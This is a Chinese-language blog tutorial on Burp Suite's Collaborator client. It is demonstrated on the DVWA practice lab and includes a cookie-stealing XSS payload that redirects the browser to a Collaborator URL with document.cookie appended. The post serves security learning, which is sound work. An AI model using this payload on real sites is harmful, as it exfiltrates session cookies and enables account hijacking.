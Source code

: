 ```yaml
---
title: 工具
categories: [工具]
comments: true
---
```

# Burpsuite的一个好玩的模块

## 前言

10月份的时候闲的无聊就在挖公益SRC，遇到了一个tomcat的站，然后在Freebuf找到了一个挖洞经验分享，他就用到了Burpsuite的这个模块。这里插个眼：https://www.freebuf.com/articles/web/247253.html

## 模块

首先打开burpsuite，点开左上角的Burp，看到我鼠标选到的Burp Collaborator client，这次分享的模块就是这个。



![image-20201207185635911](../assets/img/text/image-20201207185635911.png)

点开可以看到这样的一个界面

![image-20201207191113694](../assets/img/text/image-20201207191113694.png)

点击copy to clipboard复制到粘贴板得到：http://4y378itiod01ld6nfx93nq1rqiw8kx.burpcollaborator.net

访问看看会出现啥

![image-20201207202627526](../assets/img/text/image-20201207202627526.png)

出现了一串字符串，在看监听端有什么变化

![image-20201207202658829](../assets/img/text/image-20201207202658829.png)

可以看到监听到出现了一个HTTP的访问请求，那么肯定也能记录到一些参数请求，比如用户的cookie等。

## 实例

该测试主要利用DVWA靶场进行测试

![image-20201207204422139](../assets/img/text/image-20201207204422139.png)

![image-20201207204442664](../assets/img/text/image-20201207204442664.png)

可以看到我们的cookie

在输入框输入payload进行测试。

payload：

```
<script>location.href="http://4y378itiod01ld6nfx93nq1rqiw8kx.burpcollaborator.net?"+document.cookie</script>
```

![image-20201207204259899](../assets/img/text/image-20201207204259899.png)

可以看到这边接收到了XSS弹过来的请求，获取到了用户的COOKIE



## 后记

这边的实例只是给出一个简单的利用方法，不固定攻击方法，如果有师傅有好的建议或者更加奇妙的利用姿势，也可以分享分享，可以去博客园评论我https://www.cnblogs.com/XCCCCCC/